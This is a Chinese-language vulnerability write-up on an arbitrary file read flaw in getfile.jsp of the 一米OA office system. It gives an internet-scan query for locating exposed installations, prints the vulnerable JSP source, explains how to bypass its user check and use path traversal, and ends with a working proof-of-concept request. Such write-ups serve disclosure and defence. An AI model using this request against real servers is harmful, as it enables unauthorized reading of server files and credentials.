

一米OA getfile.jsp 任意文件读取漏洞¶
漏洞描述¶
一米OA getfile.jsp文件过滤不足，导致任意文件读取漏洞
漏洞影响¶
一米OA
网络测绘¶
app="一米OA"
漏洞复现¶
产品页面
出现漏洞的文件
<%@ page contentType="text/html;charset=utf-8" %>
<%@page import="cn.js.fan.util.*" %>
<%@page import="cn.js.fan.web.Global" %>
<%@page import="com.redmoon.oa.*" %>
<%@page import="java.io.*" %>
<jsp:useBean id="fchar" scope="page" class="cn.js.fan.util.StrUtil"/>
<jsp:useBean id="fsecurity" scope="page" class="cn.js.fan.security.SecurityUtil"/>
<jsp:useBean id="privilege" scope="page" class="com.redmoon.oa.pvg.Privilege"/>
<%
String user = ParamUtil.get(request, "user");
if ("".equals(user)) {
if (!privilege.isUserPrivValid(request, "read")) {
System.out.println("警告非法用户，你无访问此页的权限！");
return;
}
}
String filename = ParamUtil.get(request, "filename");
String extname = request.getParameter("extname");
String prop = request.getParameter("prop");
if (filename == null) {
System.out.println("缺少文件名！");
return;
}
filename = filename + "." + extname;
Config cfg = new Config();
String noticefilepath;
if ("activex".equals(prop)) {
noticefilepath = prop;
} else {
noticefilepath = cfg.get(prop);
}
String filePath = Global.getRealPath() + "/" + noticefilepath + "/" + filename;
if ("li".equals(prop)) {
filePath = Global.getRealPath() + "WEB-INF/" + prop + filename;
}
response.setContentType("application/" + extname);
response.setHeader("Content-disposition", "attachment; filename=" + filename);
BufferedInputStream bis = null;
BufferedOutputStream bos = null;
try {
bis = new BufferedInputStream(new FileInputStream(filePath));
bos = new BufferedOutputStream(response.getOutputStream());
byte[] buff = new byte[2048];
int bytesRead;
while (-1 != (bytesRead = bis.read(buff, 0, buff.length))) {
bos.write(buff, 0, bytesRead);
}
} catch (final IOException e) {
System.out.println("出现IOException." + e);
} finally {
if (bis != null)
bis.close();
if (bos != null)
bos.close();
}
out.clear();
out = pageContext.pushBody();
%>
首先验证 user 传参是否为空, 需要对 user 参数任意赋值
if ("".equals(user)) {
if (!privilege.isUserPrivValid(request, "read")) {
System.out.println("警告非法用户，你无访问此页的权限！");
return;
}
}
接着接受3个参数 filename, extname, prop
String filename = ParamUtil.get(request, "filename");
String extname = request.getParameter("extname");
String prop = request.getParameter("prop");
接着判断 prop 是否为 activex, 不等于则会去调用系统默认配置的路径 所以filename和extname这两个参数我们可以控制。构造请求前台任意文件读取
String filePath = Global.getRealPath() + "/" + noticefilepath + "/" + filename;
if ("li".equals(prop)) {
filePath = Global.getRealPath() + "WEB-INF/" + prop + filename;
}
验证POC
/public/getfile.jsp?user=1&prop=activex&filename=../public/getfile&extname=jsp
